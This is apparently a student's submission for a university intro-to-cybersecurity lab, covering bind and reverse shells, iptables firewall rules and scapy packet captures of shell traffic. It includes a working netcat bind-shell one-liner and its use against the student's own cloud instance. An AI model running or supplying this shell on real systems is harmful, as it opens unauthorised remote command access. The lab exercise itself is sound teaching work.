






[](https://classroom.github.com/a/VGHN1vBA)
# Lab 4 : CEG 3400 Intro to Cyber Security

## Name: Alec Porter

### Task 1: A Shell Game 

Answer the following:

* What port does the provided command open?
  > `nc -l 1234` tells netcat to listen to port 1234 for incoming TCP connections.  You can connect to that port and chat from another computer using `nc <localhost IP> 1234`.   The rest of the command is piping your chat from the remote computer to /bin/sh to execute shell commands.
* What is a Bind Shell and a Reverse Shell (include the links you used in 
  your research!)
  > A bind shell is when the target machine is set up to listen for commands on a specific port.  The attacker can connect to that port and issue commands to the target machine.  Anyone can connect to the target machine if they know the target machine's IP address and what port it is listening on. 
  >
  > A reverse shell  is the opposite of a bind shell, the attacker is listening and the target connects to the attacker.  The attacker doesn't need to know the IP address of the target machine and the target machine isn't volunerable to other external attackers.
  >
  > Resources:  
  > https://www.darkrelay.com/post/bind-and-reverse-shells  
  > https://medium.com/@gpiechnik/what-is-bind-shell-and-reverse-shell-4653363ebd87  
  > https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/  
* Which type of shell does this command open?
  > This attack uses *sh* which is the Bourne Shell. 
* What/whose permissions does this shell provide?
  > Permissions are based on the user who executed the command on the target system.  /bash/sh can execute commands based on the owner of the /tmp/f named pipe file.  For example, if there are two users on a system (user1 and user2) and user1 ran the `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 1234 >/tmp/f` command, an attacker would be able to run commands using user1's permissions.  The attacker can modify any files user1 owns but cannot modify files owned by user2 or any other user of the system.
  > There are some other limitations for the attacker:
  > 
  > 
  
* Give evidence of your malicious shell running a command:

  > target system:
  ```
  rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 1234 >/tmp/f
  ```
  > remote system:
  ```
  nc 52.91.148.181 1234
  cd /home/ubuntu
  touch innocentfile
  echo nothing to see here > innocentfile
  ls -lh
  cat innocentfile
  ```
  > Initial setup and connection to target:  
  >   
  > Code I ran on remote system to execute on target:  
  >   
  > Results:  
  >   
  > I was able to create a file and write text to it.  Although my "hack" was innocuous, I could create a hidden file, write a script to it, modify the permissions of that file, and execute the script to do all kinds of non-innocusous things.


---

### Task 2: Iptables

**Reminder Deliverable:** Your iptables file created with `iptables-save`

Please name your file `task2.rules`

* Would this iptables firewall configuration (`task2.rules`) be considered a whitelist or blacklist?  Explain.
  > I created my rule using the command `sudo iptables -A INPUT -p tcp --dport 1234 -j DROP` which adds a inbound traffic rule `-A INPUT` to block all incoming TCP traffic `-p tcp` on port 1234 `--dport 1234`.  This is a blacklist because it blocks all traffic to port 1234.
* How did you verify that this worked?  Be verbose!
  > 1\. Created and verified my rule was in iptables.  
  > 2\. Started a netcat chat on a port that wasn't blocked `nc -lv 1235` by listening for incoming messages.  
  > 3\. Verified I could connect to that port and chat from a remote computer `nc 100.26.49.15 1235`.  
  > 4\. Started a netcat chat on the port I blocked `nc -lv 1234` by listening for incoming messages.  
  > 5\. I was never able to connect to port 1234 from the remote computer.  
  > 6\. I cleared iptables `sudo iptables -F` and listened on port 1234.  
  > 7\. I was able to connect to port 1234 from a remote computer.  
  > 
  > This verified the rule worked when active and blocked incoming traffic on port 1234.  
  > 
  > 
  > I also verified the port was being blocked by using tcpdump to monitor traffic on port 1234 `tcpdump -i any port 1234 -n`.  I tried to communicate to the closed port when tcpdump was running and every tcpdump message showed a packet length of 0 and no ack messages.  After I cleared the firewall rule, connected to port 1234, and began chatting using netcat, tcpdump output changed and began showing various packet lengths and ack messages which indicated the successful receipt of a packet.  This indicated to me that the firewall rule was working when enabled in iptables.
  > 


---

### Task 3: Any Port in a Storm

**Reminder Deliverable:** Your iptables file created with `iptables-save`

Please name your file `task3.rules`

Answer the following:

* Would this iptables firewall configuration (`task3.rules`) be considered a whitelist or blacklist?  Explain.
  > This would be a version of whitelisting because you only allow devices that have a valid ssh private key to access port 22.  All other ports drop incoming traffic.  I could further whitelist using specific ip addresses if known.
* Did you lock yourself out?
  > I did lock myself out when I fat-fingered my port range when setting the ports to drop for incoming connections.  I was able to reboot my AWS instance to clear iptables.  If this wasn't a VM, I would have needed to log in locally and reboot the physical system.  After fixing the error I tested accessing ports from a remote system using netcat, I tried to obtain my public ip address using `nslookup myip.opendns.com resolver1.opendns.com`, I tried to wget some epic JWST images from NASA, and I tried to update ubuntu but none of them worked.  I was able to use ssh and upload/download files using scp because both of those utilities use port 22 and required my private key to work.

---

### Extra Credit

Packet.show()

  > Note: the method below was my first attempt were I saved the captured packets and viewed them in tcpdump.  It does show commands being sent and a response.  I reaccomplished the task and used scapy to display a command being sent and a response.  I've included those results at the end.

```python
packets=sniff(count=20,filter="port 1234")
packets.show()
0000 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 PA / Raw
0001 Ether / IP / TCP 10.0.0.20:1234 > 174.103.146.90:30747 PA / Raw
0002 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 A
0003 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 PA / Raw
0004 Ether / IP / TCP 10.0.0.20:1234 > 174.103.146.90:30747 PA / Raw
0005 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 A
0006 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 PA / Raw
0007 Ether / IP / TCP 10.0.0.20:1234 > 174.103.146.90:30747 PA / Raw
0008 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 A
0009 Ether / IP / TCP 10.0.0.20:1234 > 174.103.146.90:30747 PA / Raw
0010 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 A
0011 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 PA / Raw
0012 Ether / IP / TCP 10.0.0.20:1234 > 174.103.146.90:30747 PA / Raw
0013 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 A
0014 Ether / IP / TCP 10.0.0.20:1234 > 174.103.146.90:30747 PA / Raw
0015 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 A
0016 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 PA / Raw
0017 Ether / IP / TCP 10.0.0.20:1234 > 174.103.146.90:30747 PA / Raw
0018 Ether / IP / TCP 174.103.146.90:30747 > 10.0.0.20:1234 A
0019 Ether / IP / TCP 10.0.0.20:1234 > 174.103.146.90:30747 PA / Raw
``` 

* What scapy sniff options did you use to JUST show needed packets for this task?
  > I used `packets=sniff(count=20,filter="port 1234")` which filtered packets coming in to only port 1234 and limited the number of packets stored to 20.

* What are the contents of the packet (what command or response did you capture)?
  > I exported the captured packets using `wrpcap("capturedpackets.pcap", packets)` which allowed me to view the packets with tcpdump `tcpdump -X -r capturedpackets.pcap`.  The output from tcpdump is long but you can ideintify the commands and output I received.
  > 
  > I "hacked" into the target system, created "file.txt", wrote text to the file, and verifed the text was written to the file.  The image below shows the commands I ran and their output.  I started the packet capture before I ran the command to create the file.
  > 
  >
  > The first captured packet output:
  ```
  reading from file capturedpackets.pcap, link-type EN10MB (Ethernet)
  15:27:37.046401 IP syn-174-103-146-090.res.spectrum.com.30747 > 10.0.0.20.1234: Flags [P.], seq 694265577:694265592, ack 3518452549, win 496, options [nop,nop,TS val 2243040007   ecr 60607], length 15
	  0x0000:  4500 0043 8009 4000 3306 7cd6 ae67 925a  E..C..@.3.|..g.Z
	  0x0010:  0a00 0014 781b 04d2 2961 a6e9 d1b7 5345  ....x...)a....SE
	  0x0020:  8018 01f0 5c87 0000 0101 080a 85b2 1307  ....\...........
	  0x0030:  0000 ecbf 746f 7563 6820 6669 6c65 2e74  ....touch.file.t
	  0x0040:  7874 0a                                  xt.
  ```
  > The packet shows I ran the command `touch file.txt`.  Another packet I captured shows me writing text to that file using the command `echo hello world > file.txt`:
  ```
  15:27:51.018009 IP syn-174-103-146-090.res.spectrum.com.30747 > 10.0.0.20.1234: Flags [P.], seq 15:43, ack 3, win 496, options [nop,nop,TS val 2243054135 ecr 123218], length 28
	0x0000:  4500 0050 800b 4000 3306 7cc7 ae67 925a  E..P..@.3.|..g.Z
	0x0010:  0a00 0014 781b 04d2 2961 a6f8 d1b7 5347  ....x...)a....SG
	0x0020:  8018 01f0 5229 0000 0101 080a 85b2 4a37  ....R)........J7
	0x0030:  0001 e152 6563 686f 2068 656c 6c6f 2077  ...Recho.hello.w
	0x0040:  6f72 6c64 203e 2066 696c 652e 7478 740a  orld.>.file.txt.
  ```
  > While not trivial, I can review all of the packets and determine the commands I ran and the output provided (even when I made an error):
  ```
  15:27:54.895379 IP 10.0.0.20.1234 > syn-174-103-146-090.res.spectrum.com.30747: Flags [P.], seq 9:56, ack 48, win 210, options [nop,nop,TS val 127679 ecr 2243057815], length 47
	0x0000:  4500 0063 68d2 4000 4006 86ed 0a00 0014  E..ch.@.@.......
	0x0010:  ae67 925a 04d2 781b d1b7 534d 2961 a719  .g.Z..x...SM)a..
	0x0020:  8018 00d2 4b2b 0000 0101 080a 0001 f2bf  ....K+..........
	0x0030:  85b2 5897 6361 6e6e 6f74 2061 6363 6573  ..X.cannot.acces
	0x0040:  7320 276c 273a 204e 6f20 7375 6368 2066  s.'l':.No.such.f
	0x0050:  696c 6520 6f72 2064 6972 6563 746f 7279  ile.or.directory
	0x0060:  0a24 20                                  .$.
  ```
  >
  > Some adiditonal searching on how to more easily read information from tcpdump led me to the following webpage: https://serverfault.com/questions/38626/how-can-i-read-pcap-files-in-a-friendly-format and this very nice command `tcpick -C -yP -r capturedpackets.pcap` which provided the following output that mirrored the commands I ran and the output I recevied:
  ```
  Starting tcpick 0.2.1 at 2024-10-23 16:01 UTC
  Timeout for connections is 600
  tcpick: reading from capturedpackets.pcap
  touch file.txt
  $ 
  echo hello world > file.txt
  $ 
  ls l
  ls: 
  cannot access 'l': No such file or directory
  $ 
  ls -l
  total 65164
  -rw-rw-r-- 1 ubuntu ubuntu       12 Oct 23 15:27 file.txt
  drwxrwxr-x 2 ubuntu ubuntu     4096 Jul  6  2020 git
  -rw-rw-r-- 1 ubuntu ubuntu       20 Oct 23 13:41 innocentfile
  -rwxrwxr-x 1 ubuntu ubuntu 66709754 Jul 21  2021 Miniconda3-latest-Linux-x86_64.sh
  -rw------- 1 ubuntu ubuntu        0 Oct 23 15:18 nohup.out
  drwxrwxr-x 8 ubuntu ubuntu     4096 Oct 23 14:37 scapy
  $ 
  cat file.txt
  hello world
  $ 
  tcpick: done reading from capturedpackets.pcap
  
  20 packets captured
  0 tcp sessions detected
  ```  
  >  
  > Below are the outputs from the second attempt using scapy show() on a command from the attacking computer `ls -lh`, and the response.
```
  >>> packets[15].show()
###[ Ethernet ]### 
  dst= 06:2a:ef:43:b4:93
  src= 06:82:8e:ea:a5:d1
  type= IPv4
###[ IP ]### 
     version= 4
     ihl= 5
     tos= 0x0
     len= 59
     id= 63681
     flags= DF
     frag= 0
     ttl= 53
     proto= tcp
     chksum= 0x5862
     src= 130.108.104.25
     dst= 10.0.0.20
     \options\
###[ TCP ]### 
        sport= 12003
        dport= 1234
        seq= 3433290055
        ack= 2707665771
        dataofs= 8
        reserved= 0
        flags= PA
        window= 501
        chksum= 0xe4f8
        urgptr= 0
        options= [('NOP', None), ('NOP', None), ('Timestamp', (4271915097, 10932))]
###[ Raw ]### 
           load= 'ls -lh\n'

>>> packets[16].show()
###[ Ethernet ]### 
  dst= 06:82:8e:ea:a5:d1
  src= 06:2a:ef:43:b4:93
  type= IPv4
###[ IP ]### 
     version= 4
     ihl= 5
     tos= 0x0
     len= 477
     id= 56882
     flags= DF
     frag= 0
     ttl= 64
     proto= tcp
     chksum= 0x664f
     src= 10.0.0.20
     dst= 130.108.104.25
     \options\
###[ TCP ]### 
        sport= 1234
        dport= 12003
        seq= 2707665771
        ack= 3433290062
        dataofs= 8
        reserved= 0
        flags= PA
        window= 210
        chksum= 0xf668
        urgptr= 0
        options= [('NOP', None), ('NOP', None), ('Timestamp', (15744, 4271915097))]
###[ Raw ]### 
           load= 'total 64M\n
		-rw-r--r-- 1 root   root    474 Oct 24 13:34 capturedpackets.pcap\n
		drwxrwxr-x 2 ubuntu ubuntu 4.0K Jul  6  2020 git\n
		-rw-rw-r-- 1 ubuntu ubuntu   20 Oct 23 13:41 innocentfile\n
		-rwxrwxr-x 1 ubuntu ubuntu  64M Jul 21  2021 Miniconda3-latest-Linux-x86_64.sh\n
		-rw------- 1 ubuntu ubuntu    0 Oct 23 15:18 nohup.out\n
		drwxrwxr-x 8 ubuntu ubuntu 4.0K Oct 23 14:37 scapy\n
		-rw-rw-r-- 1 ubuntu ubuntu  238 Oct 24 12:18 task2.rules\n'
```


